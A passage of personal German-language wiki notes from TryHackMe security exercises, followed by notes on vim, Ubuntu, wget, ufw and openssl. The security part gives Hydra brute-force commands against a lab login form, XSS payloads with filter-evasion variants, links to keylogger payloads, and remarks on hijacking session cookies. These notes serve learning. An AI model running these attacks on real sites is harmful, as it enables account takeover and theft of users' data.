* Das Programm schickt dann ``HTTP``-Anfragen an ``http://fakebank.com/images`` (``images`` ist nur ein Beispiel aus ``wordlist.txt``) und wenn ein erfolgreicher Statuscode wie ``200`` oder ``3xx`` zurückkommt, weiß man, dass es weitere verstecke Seiten gibt, bspw ``http://fakebank.com/images``, die man so nie finden würde.


# Hydra
Angelegt Samstag 22 Oktober 2022

Beschreibung
------------

* Bricht Anmelde-Prozesse, dh. man kann ``hydra`` verwenden, wenn man Nutzernamen oder Passwort hat, um das Gegenstück über entsprechende Wortlisten (es gibt auch welche für Nutzernamen) herauszufinden.
* Für Passwort-Hashes am besten [:Linux:TryHackMe:Werkzeuge:**JohnTheRipper**](#Linux:TryHackMe:Werkzeuge:JohnTheRipper) verwenden


### Beispiel
Hydra is a very fast online password cracking tool, which can perform rapid dictionary attacks against more than 50 Protocols, including Telnet, RDP, SSH, FTP, HTTP, HTTPS, SMB, several databases and much more.
Beispiel

``hydra -t 4 -l NUTZER -P /usr/share/wordlists/WORDLIST -vV IP PROTOKOLL``

#### Klassische Login-Seite

* [How to use Hydra to brute force login pages − YouTube](https://www.youtube.com/watch?v=2tJgPyRITGc)


* Mit der Hilfe von [:Linux:TryHackMe:Werkzeuge:**Burp Suite**](#Linux:TryHackMe:Werkzeuge:Burp Suite) oder dem Seitenquelltext kann man per *Hydra* auch diese Passwörter brechen.
	* Im Seitenquelltext kann man evtl. jeweils das ``HTTP-name``-Attribut bzw. die ``form``-Datenfelder, das Ziel der Anfrage finden und das Protokoll/die Methode finden
	* In [:Linux:TryHackMe:Werkzeuge:**Burp Suite**](#Linux:TryHackMe:Werkzeuge:Burp Suite) sieht man die Anfrage und kann so ggfl. die entsprechenden Felder finden (das Ziel der Anfrage sowieso)


Ziel: ``10.10.81.91``
Pfad-Argumente: ``/rest/user/login``
Methode: ``POST``
``form``-Daten: ``email`` & ``password``
Ein Angriffsvektor sieht wie folgt aus:
``hydra -l NUTZERNAME -P WORTLISTE http-post-form://10.10.81.91/rest/user/login:"email=^USER^&password=^PASS^":TRIGGER``

* ``^USER^`` Stelle an die der per ``-l`` spezifizierte ``NUTZERNAME`` gesetzt wird
* ``^PASS^`` Analog zu ``^USER^``
* ``TRIGGER`` Indikator, ob Anfrage klappte oder scheiterte.
	* In den meisten Fällen hat man Informationen darüber, dass die eingegebenen Daten falsch waren, da dann eine Fehlermeldung auftritt. Ein Wort aus dieser kann bspw. als ``TRIGGER`` verwendet werden.

Aus [OWASP Juice Shop, Task 4 − TryHackMe](https://tryhackme.com/room/owaspjuiceshop):
``hydra -l admin@juice-sh.op -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/best1050.txt http-post-form://10.10.81.91/rest/user/login:"email=^USER^&password=^PASS^":"Invalid"``

Installation
------------

* Soweit ich weiß nur über [Hydra − github](https://github.com/vanhauser-thc/thc-hydra)


# JohnTheRipper
Angelegt Samstag 22 Oktober 2022

Beschreibung
------------

* Prinzip: Man übergibt dem Programm einen Passwort-Hash und eine Wortliste. Mit dieser probiert dann JohnTheRipper das Passwort zu brute-forcen
* [JohnTheRipper − Wikipedia [de]](https://de.wikipedia.org/wiki/John_the_Ripper)
* [JohnTheRipper − Wikipedia [en]](https://en.wikipedia.org/wiki/John_the_Ripper)


* Ist **nicht** für Login-Prozesse oder irgendetwas, das über das Internet läuft gedacht (dafür ist [:Linux:TryHackMe:Werkzeuge:**Hydra**](#Linux:TryHackMe:Werkzeuge:Hydra) gedacht). Man benötigt den Passwort-Hash lokal bei sich, da er als Argument dient!
* ``ssh4john`` wandelt Passwort-geschützte [:Linux:**ssh**](#Linux:ssh)-Schlüssel so um, dass man sie mit JohnTheRipper brechen kann
* Kann mit verteiltem Rechnen verwendet werden

Beispiel
--------
	cat pass.txt # user:AZl.zWwxIh15Q
	john -w:password.lst pass.txt
		# Loaded 1 password hash (Traditional DES [24/32 4K])
		# example         (user)
		# guesses: 1  time: 0:00:00:00 100%  c/s: 752  trying: 12345 - pookie

(Das Passwort lautet ``12345``)

# whois
Angelegt Sonntag 09 Oktober 2022

	whois <Domain>


* Mit ``whois`` kann man herausfinden, wem ein Domain-Name gehört, zum Teil mit Postanschrift
	* In Europa aus Datenschutzgründen beschränkt, in den USA bspw. nicht, vgl. ``whois (tagesschau.de|bbc.co.uk)`` und ``whois facebook.com``


# XSS − Cross Site Scripting
Angelegt Freitag 28 Oktober 2022

[XSS − TryHackMe](https://tryhackme.com/room/xss)

 Wenn Eingaben nicht bereinigt werden, bspw. geht ``<script>alert("Hello World")</script>`` oder Sonderzeichen wie ``<``, ``>`` gehen durch, könnte XSS möglich sein


* Erlaubt Skripte auf Ziel auszuführen, va. dann, wenn Nutzereingabe nicht bereinigt („sanatized“ wird), bspw. ``JavaScript``, ``VBScript``, ``Flash``, ``CSS``.
* 3 Arten:
	* *Stored XSS*: Das Skript wird der eigenen Datenbank entnommen, dh. es gibt Möglichkeit unbereinigten Code in einer Datenbank abzulegen.
	* *Reflected XSS*: Payload ist Teil der Internetseitenanfrage des Ziels, bspw. enthält die Antwort ein Schadskript. Um das realisieren, muss man es schaffen, dass das Ziel auf einen manipulierten Link klickt bzw. eine Anfrage an die URL schickt. Eingabe taucht meistens 1:1 in der URL als Parameter auf.
	* *DOM-Based XSS*: *Document Object Model* ist eine Schnittstelle für die Erstellung von HTML und XML.

Unterschied zu *Reflected XSS*: Werden nicht direkt ausgeführt sondern später, wenn auf sie durch eine Datenbankabfrage zugegriffen wird

* Internetseite ist bei allen Arten nur Mittel zum Zweck, um Code beim Ziel ausführen zu lassen (s. mehr unter „Reflected XSS“). 

Informationen, die interessant sind
-----------------------------------

* Cookies, bspw. Session-Cookies. Die kann man verwenden, um sich als ein anderer Nutzer auszugeben, man umgeht damit Anmeldeverfahren, heißt, man braucht nicht Nutzername und Passwort, sondern nur den Cookie
* Keylogging
* Webcam-Snapshot
* Phishing
* Port Scanning
* …


### Reflected XSS


* Es sind 3 Parteien involviert: Angreifer, Ziel, Server/Internetseite. Letztere ist nur Mittel zum Zweck.
* Ziel: Code auf Rechner des Opfers ausführen (lassen)
* Server/Internetseite dient dabei nur als Tarnung, damit das Opfer kein Verdacht schöpft.
* Ist eine Internetseite anfällig für XSS kann sie verwendet werden, um jemand anderes **nicht** die Seite selbst anzugreifen. Dazu darf die Seite die Eingabe nicht bereinigen. Ein guter Indikator ist die URL, die nach Möglichkeit das Skript in einen Parameter schreibt.
* Vorgehen: Seite identifizieren, bösartiges Skript in URL parken, Ziel dazu bringen auf Link zu klicken, damit der Code letztendlich beim Opfer ausgeführt wird (bestenfalls merkt das Opfer es nicht, weil sich der Online-Shop normal verhält)
	* (Ich glaube, es gibt extra Seiten, die man für einen XSS-Angriff nutzen kann)

⇒ Ist eine Seite XSS anfällig, geht es nicht um die Seite, sondern dass sie dazu missbraucht werden kann jemand anderes anzugreifen.

### Stored XSS


### DOM-Based XSS
Hier kann es sein, dass man eine Interaktion einbauen muss, da der Code eben nur genau dann ausgeführt wird. Ein solche Interaktion stellt bspw. ``onmouseover="alert(<INFO>)"`` dar. Irgendwie kann man sicher eine Methode einbauen, wenn man auf ein Element klickt.

Beispiel-XSS-Payloads
---------------------

* ``<script>alert("Hello World")</script>``
* Writing HTML (``document.write``)
* XSS Keylogger (<http://www.xss-payloads.com/payloads/scripts/simplekeylogger.js.html>)
* Port scanning (<http://www.xss-payloads.com/payloads/scripts/portscanapi.js.html>)
* Allgemein unter <http://www.xss-payloads.com/>


### Strategien zum umgehen / Filter Evasion

* In HTML kann man den Zwischenraum zwischen dem Tag und dem **ersten** Attribut mit beliebigen Zeichen füllen, wenn auf „alleinstehende“ Wörter geprüft wird, kann man das ggfl. so umgehen.

	 <!-- / wird ignoriert -->
	 <!-- /junkdata/ wird ignoriert -->


* falls ``script``-Tags bereinigt/blockiert können verwendet werden:
	* ``<a href="" onclick="alert('Hello');">Klick mich!</a>``
	* ````
	* ``<div onmouseover="alert(1)">Lege den Zeiger auf mich</div>``
	* ``<a href="javascript:alert(1)">Klick mich!</a>``


* [OWASP Cheat Sheet Series: XSS Filter Evasion − owasp.org](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
* [HTML 5 Security Cheat Sheet − https://html5sec.org/](https://html5sec.org/)


* falls ``alert(…)``-gefiltert wird
	* ``<script>document.getElementById('<ID>').textContent="<NEUER TEXT>";</script>``


# z Diverses
Angelegt Samstag 29 Oktober 2022

Insecure Deserialization
------------------------

* Wie in *Verteilte Systeme* & *Middleware − Cloud Computing*: Zum Versenden von Objekten werden diese *serialisiert*, abgeschickt und beim Empfänger *deserialisiert*.
	* So bspw. mit Passwörtern, um sie abzuspeichern
* Sicherheitslücke entsteht dadurch, dass die *Deserialisierung* schlecht gestaltet wurde und bspw. der Nutzereingabe blind vertraut wird. Wird das deserialisierte Objekt irgendwann abgerufen, wird dann der Schadcode ausgeführt.


# Ubuntu
Angelegt Samstag 26 Februar 2022

Tastenkürzel
------------

* ``STRG + DRUCK  ``Bildschirmfoto vom ganzen Bildschirm (Zwischenablage)
* ``ALT + DRUCK  ``Bildschirmfoto vom aktuellen Fenster (wird gespeichert)
* ``SHIFT + DRUCK  ``Bildschirmfoto eines Ausschnitts (wird gespeichert)
* ``STRG + SHIFT + DRUCK  ``Bildschirmfoto eines Ausschnitts (Zwischenablage)


# vim
Angelegt Montag 18 Juli 2022


* ``vim`` verfügt über verschiedene Modi, ua. „Normalmodus (Befehlsmodus)“ und „Eingabemodus“


Anleitungen
-----------

* <https://riptutorial.com/vim>
	* <https://riptutorial.com/vim/example/15901/navigating-to-the-beginning-of-a-specific-word>
* [Vim Cheat Sheet.html](file:///home/philipp/zim_wiki/Internetseiten/Vim%20Cheat%20Sheet.html) (online: [Cheatcheet – vim.rtorr.com](https://vim.rtorr.com/))
* [./vim-Anleitung.pdf](./Linux_files/Linux/vim/vim-Anleitung.pdf)


Normalmodus (Befehlsmodus)
--------------------------

### Operatoren und Bewegungen

* Viele Kommandos setzen sich aus „Operator“ (bspw. ``d``) und „Bewegung“ (bspw. ``w``), das worauf der Operator angewandt werden soll, zusammen, wie ``dw``
* Eingabe **ohne** Operator bzw. **nur** der Bewegung: Cursor führt Bewegung aus
* Operator-Eingabe mit ``<Anzahl>`` vor Bewegung möglich
	* ``d2w`` Löscht zwei Wörter
	* ``ce`` Bis Wortende (Bewegung ``e``) löschen und in Eingabemodus wechseln
* ``no<OPTION>`` Deaktiviert die Option, bspw. schaltet ``:set noic`` das Ignorieren der Groß-/Kleinschreibung aus


### Operatoren
Setzen sich allgemein zusammen aus
``<Operator> [Anzahl] <Bewegung>``

* ``d <Bewegung>`` Löscht gemäß der Bewegung (``d``elete)
* ``c <Bewegung>`` Ändern (``c``hange)
* ``y <Bewegung>`` Kopieren (``y``ank), bspw. ``y3e``
* ``v <Bewegung>`` Markieren (``v``isual selection), bspw. ``ve``, ``v3j``, dann **mit** ``y`` kopieren
	* ``V <Bewegung>`` Zeilenweises markieren
	* ``STRG + v`` Visueller Block-Modus, dh. man kann mit ``hjkl`` „Blöcke/Rechtecke“ markieren
	* ``vd`` Auswahl löschen


### Bewegungen

* Immer wieder sinnvoll zu konsolutieren
	* <https://riptutorial.com/vim/example/5512/basic-motion>
	* <https://vimdoc.sourceforge.net/htmldoc/motion.html>

Kombination mit ``<Anzahl>`` nicht vergessen, bspw ``2w`` oder ``4e``

* ``w`` Cursor springt zum Beginn des nächsten [word − vim-Doku](https://vimdoc.sourceforge.net/htmldoc/motion.html#word)
	* ``W`` springt zum Beginn des nächsten [WORD − vim-Doku](https://vimdoc.sourceforge.net/htmldoc/motion.html#WORD)
	* ``word`` Satzzeichen wie ``,``,``.``,``/`` und Leerzeichen trenne Wörter
	* ``WORD`` Alles, was zwischen Leerzeichen steht
	* ``word``/``WORD`` Unterschied: [what-is-difference-between-w-and-W-in-escape-mode-of-vim − unix.stackexchange](https://unix.stackexchange.com/questions/106425/what-is-difference-between-w-and-w-in-escape-mode-of-vim)
	* ``ge`` wie ``w`` nur nach links, dh. Springe zum Ende des vorherigen Wortes
* ``e`` Cursor springt zum Ende des aktuellen „``word``“
	* ``E`` springt zum Ende des aktuellen „``WORD``“
	* ``b`` wie ``e`` nur nach links, dh. Springe zum Beginn des aktuellen Wortes
* ``0`` Cursor springt zum Zeilenanfang
	* ``^`` Cursor springt zum ersten „Wortzeichen“ (sinnvoll bei Einrückungen)
* ``$`` Cursor springt zum Ende der Zeile mit letztem Zeichen
* ``f``/``F CHAR`` Springe **auf nächsten/vorherigen** ``CHAR``
	* Sinnvoll in Kombination mit ``[Anzahl]``, dh. ``3fa``
	* ``;`` Wiederhole letztes ``f``/``F CHAR``
	* Um zu einem bestimmten Wort zu navigieren, kann man ``f ANFANGSBUCHSTABE ; ... ;`` nutzen, dh. man wiederholt ``f ANFANGSBUCHSTABE`` solange, bis man bei dem Wort ist
* ``t``\``T CHAR`` wie ``f``/``F CHAR`` nur **vor**, bzw. **nach** (wenn nach links mit ``T``) ``CHAR``
	* Sinnvoll in Kombination mit ``[Anzahl]``, dh. ``3Ta``
	* ``,`` Wiederhole letztes ``t``/``T CHAR``

**TODO** ändert, glaube ich ``f`` → ``t`` und ``F`` → ``T``

* ``{``, ``}`` Beginn/Ende des Paragraphen
* ``[{``, ``]}`` Beginn/Ende des Blocks
* ``:ZEILENNUMMER`` Springe zu Zeile ``ZEILENNUMMER``
* ``*``/``#`` Gehe zum nächsten/vorherigen Auftreten des Wortes auf dem der Cursor gerade steht


### Bewegungen für python


Diverses
--------

* ``ESC``, ``STRG + [``, ``STRG + C`` Eingabemodus verlassen (und Normalmodus betreten)
	* ``STRG + O`` Eingabemodus für einen Befehl verlassen
* ``<ANZAHL><BEFEHL>`` Führe ``<BEFEHL>`` ``<ANZAHL>``-mal aus, bspw. ``3dd`` (lösche drei aufeinanderfolgende Zeilen)
* ``d…`` Löschen/Ausschneiden (starten) (``d``elete)
	* ``D`` = ``d$``
	* ``dw`` Bis zum Beginn des nächsten Wortes löschen (wenn man auf erstem Buchstaben dessen ist (``d``elete ``w``ord))
	* ``de`` Bis zum Ende des aktuellen Wortes löschen
	* ``d$`` Bis zum Zeilenende löschen
	* ``dd`` Zeile löschen
* ``y`` kopiere Auswahl
	* ``yy`` Zeile kopieren
* ``p`` Einfügen (``p``ut) **nach** dem Cursor, bspw. per ``dd`` gelöschte Zeile
	* ``P`` Einfügen **vor** dem Cursor
* ``u`` Letztes Kommando rückgängig machen (``u``ndo)
	* ``U`` Zeile in Ursprungszustand zurücksetzen, hilfreich, wenn mehrere Kommandos auf einer Zeile operierten
* ``STRG + R`` ``u``ndo rückgängig machen
* ``i`` **Ein**fügemodus (``i``nsert), Zeichen werden links vom Kursor eingefügt
	* ``I`` Einfügen am Zeilen**anfang**
* ``a`` **An**fügemodus (``a``ppend), Zeichen werden rechts vom Kursor angehängt
	* ``A`` Anfügen am Zeilen**ende**
* ``x`` Zeichen auf dem Kursor steht löschen
* ``gg`` Gehe zum Dateianfang
	* ``G`` Gehe zum Dateiende

``<Zeilennummer>G`` Gehe zu Zeile ``<Zeilennummer>``
``:<Zeilennummer>`` Gehe zu Zeile ``<Zeilennummer>``
``v`` Markierungsoperator (``v``isual selection), mit ``y`` kopieren

* Markierter Text kann mit Operatoren, bspw. ``d``, gelöscht oder ``:w <Dateiname>`` gespeichert werden

``V`` markiert die ganze Zeile
``o`` Fügt Leerzeile unterhalb ein und begibt sich ein Eingabemodus
``O`` Analog zu ``o`` nur oberhalb
``r <Ein Zeichen>`` Ersetzt Zeichen auf dem Cursor steht mit ``<Zeichen>`` (``r``eplace)
``R <Mehrere Zeichen>`` Ersetzt mehrere Zeichen direkt nach dem Cursor

``STRG-G`` Zeige Dateiposition & -status an
``STRG-O`` Gehe zurück; nicht genau klar, wann man das machen kann, einfach mal ausprobieren
``STRG-ALT GR-]`` Öffnen einer Seite, wenn man mit Cursor auf ihr ist, in der Hilfe (``:help``), die als ``|<TAG>|`` angedeutet ist

* ❗️Funktioniert nicht mit dem [NEO-Tastaturlayout − MeinWiki > Notizen](#Notizen:Tastaturen:NEO-Tastaturlayout)
* Lösung: ``:<TAG>`` eingeben

``STRG-W, STRG-W`` Wechselt Fenster, bspw öffnet sich die Hilfe in einem extra Fenster

``% auf Klammer`` Tippt man ``%`` während man sich auf einer Klammer befindet, springt der Cursor zum öffnenden/schließenden Pendant

* Kann man auch per Einstellung in [~/.vimrc](file:///home/philipp/.vimrc) realisieren

``h,j,k,l`` Zeile nach links/unten/oben/rechts gehen (Wie Pfeiltasten)
``H`` Gehe zur ersten Zeile auf Bildschirm
``L`` Gehe zur letzten Zeile auf Bildschirm
``j$`` Gehe zum Ende der nächsten Zeile (``j`` für „nach unten“, ``$`` für's Ende der Zeile)
``STRG-D, TAB`` Syntaxvervollständigung; ``STRG-D`` zeigt Liste an, mit ``TAB`` kann man diese durchgehen, bspw. ``:e → STRG-D → TAG → edit``

### Suchen

* ``/<Regex>`` Suche (vorwärts) nach ``<Regex>``

``<Regex>`` muss dabei ``(``, ``)``, ``|``, etc. ausweichen, dh. ``\`` voranstellen

* ``STRG-0`` „Gehe zurück“
* ``n`` Zum nächsten Suchergebnis gehen
* ``N`` Zum vorherigen Suchergebnis gehen
* ``?<Regex>`` Suche rückwärts nach ``<Regex>``


Befehle
-------

* ``:!<Shell-Befehl>`` Eingabe und Ausführung eines Shell-Befehls, bspw ``:!ls -la``
* ``:w <Dateiname>`` Speichern des Textes in Datei ``<Dateiname>``
* ``:wq`` = ``:x`` Speicher/Schreiben (``w``rite) und verlassen (``q``uit)
	* ``:q!`` Verlassen und nicht speichern (``!`` steht allg. für „force“)
* ``:s/<Regex>/<ersetzen>[/gc]`` Suchen & Ersetzen
	* ``g`` Alles ersetzen, nicht nur ersten Treffen (``g``reedy)
	* ``c`` Jede Ersetzung manuell bestätigen (``c``onfirmation)
	* *vim* nutzt die Syntax/Mechanik von [:Linux:**sed**](#Linux:sed), dh. man kann statt den ``/`` jedes beliebige Sonderzeichen verwenden, solange es in ``<Regex>`` und ``<ersetzen>`` nicht vorkommt, bspw. ``&``, dh. ``:s/<Regex>/<Ersatztext>/g == :s&<Regex>&<Ersatztext>&g`` sind gleichbedeutend. Das ist vorallem dann sinnvoll, wenn in einem der beiden ``/`` vorkommt, bspw. bei Dateipfaden, da man diese sonst per ``\`` escapen müsste, was schnell zu einem unleserlichem ``<Regex>`` führt.
	* ``:%s…`` Alle Vorkommen in Datei
	* ``:#,#s…`` Alle Vorkommen innerhalb zweier Zeilen, ``#,#`` gibt die Zeilennummern an
* ``:r <Dateiname>`` Fügt Inhalte von ``<Dateiname>`` ein
	* auch mit Shell-Befehlen möglich, bspw. ``:r :!ls``
* ``:new <Dateiname>`` Öffnet ``<Dateiname>`` in einem neuen Fenster (Wechsel per ``STRG-W, STRG-W``)
* ``:set numbers`` Zeilennummerierung aktivieren

``:tabnew DATEI`` öffnet ``DATEI`` in neuem Reiter/Tab
``g(t|T)`` geht zum nächsten oder vorherigen Reiter
``:tab(n|p)`` geht zum nächsten (``n``) oder vorherigen (``p``) Reiter
``:new DATEI`` öffnet Datei in oberer Hälfte

.vimrc-Datei
------------

* In [~/.vimrc](file:///home/philipp/.vimrc) kann man Standardeinstellungen für ``vim`` vornehmen
* <http://vim.wikia.com/wiki/Open_vimrc_file> (Stand in einem Stackoverflow-Kommentar)
* Backups deaktiviert, da mich die ``~``-Dateien nerven ([why-does-vim-save-files-with-a-extension – Stackoverflow](https://stackoverflow.com/questions/607435/why-does-vim-save-files-with-a-extension))
	* Selbiges habe ich mit den ``Undo``-Dateien (``.un~``-Dateien gemacht), s. dazu [~/.vimrc](file:///home/philipp/.vimrc) (auch wegen des Links zur Quelle)


TODO
----
Probiere folgendes (<ENTER> nicht vergessen):

* ``:help w``
* ``:help c_CTRL-D``
* ``:help insert-index``
* ``:help user-manual``
* ``:help vimrc-intro``


# wget
Angelegt Dienstag 27 September 2022

Mit ``wget`` kann man Dateien herunterladen. Dazu einfach
	wget <URL>

verwenden.


* ``-O <file>`` Schreibt Inhalte in Datei ``<file>``


* ``-O -`` bedeutet, dass Datei auf ``stdout`` geprintet wird
* Falls etwas nicht wie gewollt funktioniert, unbedingt in die ``man``-Page schauen, da diese Option umfangreicher ist


# z Diverses
Angelegt Dienstag 25 Oktober 2022

Portfreigabe
------------

* in Fritzbox Port X freigeben (nur ipv6)
* im Terminal:
	1. ``sudo ufw allow <ANWENDUNG>`` oder ``ufw allow <PORT>/<PROTOKOLL>``
	2. ``sudo ufw reload`` ([ufw − UbuntuUsers-](https://wiki.ubuntuusers.de/ufw/)

Bsp:
	sudo ufw allow ssh
	sudo ufw allow 8080/tcp

...benötigen beide davor eine Freigabe in Fritzbox

* Port schließen:
	1. ``sudo ufw disable <ANWENDUNG>`` oder ``sudo disable <PORT>/<PROTOKOLL>``

Bsp: wie bei „sudo allow [...]“


# Zertifikate
Angelegt Sonntag 13 November 2022

Generierung
-----------

1. ``openssl`` aufrufen

	openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out ZERTIFIKAT.crt


* Generiert zwei Dateien: ``ZERTIFIKAT.{crt, key}``
* ``rsa:2048`` Verschlüsselungsverfahren und Schlüssellänge
* ``-days 362`` Gültigkeit


2. Fragt anschließend nach Infos über das Zertifikat: Leer lassen oder Quatsch angeben
3. ``ZERTIFIKAT.{crt, key}`` in eine ``.pem``-Datei speichern:

	cat ZERTIFIKAT.crt ZERTIFIKAT.key > ZERTIFIKAT.pem


